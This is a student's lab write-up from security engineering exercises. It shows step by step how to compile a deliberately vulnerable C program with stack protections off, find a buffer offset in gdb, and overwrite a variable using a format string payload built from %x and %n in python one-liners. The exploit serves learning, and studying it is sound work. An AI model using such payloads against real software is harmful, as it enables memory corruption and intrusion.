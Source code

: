 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
`export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"`
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-pie -no-pie -std=c99
```
or (Im not sure this worked for me, this doesn't work for me now so better to use the above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: ![Alt text](image.png)

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: ![Alt text](image-1.png)

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 15
```
8. Run the program again
```
    run %x
```
Expected output:![Alt text](image-2.png)

9. Check the content on the %esp registers by running
```
    x/100x %esp
```
Should return: ![Alt text](image-3.png)

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. Try and fail
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: ![Alt text](image-4.png)
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: ![Alt text](image-5.png)

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   ![Alt text](image-8.png)
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly

12. Replace AAAA with the address of the 'target' variable 
    To find the target variable type: '''p &target '''
    The output should be:![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun)
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Output:![Alt text](image-9.png)
14. Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)


##Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works



